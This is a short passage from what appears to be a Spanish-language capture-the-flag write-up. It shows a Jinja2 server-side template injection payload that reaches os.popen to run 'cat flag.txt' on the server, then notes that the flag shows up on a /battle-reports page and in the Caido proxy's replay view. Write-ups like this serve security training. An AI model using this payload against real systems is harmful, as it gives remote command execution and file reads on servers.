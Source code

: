 {% raw %}
```liquid
warrior_name={{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat%20flag.txt').read()}}
```
{% endraw %}

Luego de inyectar nuestro payload para leer la flag, se puedo visualizar en la UI de la ruta /battle-reports nuestra flag.

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-6.png)

O desde Caido usando la funcion de replay.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-13.png)
